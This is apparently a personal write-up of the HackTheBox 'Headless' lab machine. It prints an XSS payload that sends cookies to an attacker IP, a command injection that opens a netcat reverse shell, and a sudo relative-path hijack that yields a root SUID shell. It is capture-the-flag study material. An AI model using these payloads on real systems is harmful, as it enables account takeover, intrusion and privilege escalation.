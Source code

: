 ```yaml
---
tags:
  - htb
names:
  - headless
os: Linux
flag_user: false
flag_system: false
revisit: true
---
```

# HackTheBox: [Headless](https://app.hackthebox.com/machines/Headless)

> [!tip]- Summary with Spoilers
> This Linux box presents a simple XSS vulnerabilty for RCE, and a vulnerable Sudo script that calls another script with a relative path for PE.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue May 28 14:16:13 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.8)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

## 5000/tcp Http

![](_/htb-headless-20240528-1.png)

```console
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://t:5000/support
200      GET       96l      259w     2799c http://t:5000/
500      GET        5l       37w      265c http://t:5000/dashboard
```

`/dashboard` complains about authorization:

```text
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```

Burp shows that it sets a cookie:

```console
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Decoded, it contains `"user",` and some data, `f^TïËòÍhðÖðY~`.

So, first I'll try to use the form at `/support` to do an XSS attack and recover an admin's cookie.

My first attempt uses `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` as the `message` parameter on the `/support` form. But, the site doesn't like that:

![](_/htb-headless-20240528-3.png)

I get one empty hit:

```console
10.10.14.2 - - [28/May/2024 16:38:29] "GET /?cookie= HTTP/1.1" 200 -
```

Eventually this one comes back:

```console
10.10.11.8 - - [28/May/2024 16:38:51] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

I'm not sure which requests those were from, since there's a lag.

Decoding the base64 value above, the cookie is:

```console
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

This time the value is "admin" not "user": `"admin"fÌ94Iº­(È½_lÄ§^ô`

I try the `/dashboard` page again, but this time I use Intercept in Burp and replace the cookie value with the one captured. Now I can view the dashboard:

![](_/htb-headless-20240528-4.png)

That's great but I also edit the cookie value in Firefox so I can play around with the dashboard without having to intercept and modify each request.

![](_/htb-headless-20240528-6.png)

Here's the POST request:

```http
POST /dashboard HTTP/1.1
Host: t:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://t:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://t:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close
date=2023-09-15
```

## RCE

Modifying the `date` parameter with a reverse shell invocation works:

```http
date=2023-09-15;busybox%20nc%2010.10.14.2%20443%20-e%20bash
```

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.8] 42470
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## PE

One script available via Sudo:

```console
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```text
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
exit 0
```

I'm most interested in this line:

```console
./initdb.sh 2>/dev/null
```

Since it's using a relative path, I'll create my own malicious `initdb.sh`.

```console
dvir@headless:~/app$ echo 'cp /bin/bash /tmp/x; chmod 4755 /tmp/x' > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
```

I'll make sure the process it's looking for isn't running:

```text
dvir@headless:~/app$ ps faxuw |grep initdb
dvir        1497  0.0  0.0   6332  2128 pts/0    S+   02:00   0:00                  \_ grep initdb
```

And then I'll trigger the exploit.

```text
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.08, 0.08
Database service is not running. Starting it...
dvir@headless:~/app$ ls -l /tmp/x
-rwsr-xr-x 1 root root 1265648 May 29 02:00 /tmp/x
dvir@headless:~/app$ /tmp/x -p
x-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
x-5.2# cat /root/root.txt
5f8c95f...
```

## Post

## Open Questions

Unresolved issues encountered while attacking this target.

- Which parameter on the `/dashboard` form was vulnerable to XSS? I tried several but it was hard to tell which one worked since there was a delay in the response. And how did one of the responses return an empty string?

## Credits

- Thanks to [TechnoLifts writeup](https://medium.com/@technolifts/headless-hack-the-box-htb-write-up-1c728108c0ca) for getting the right syntax on the XSS.
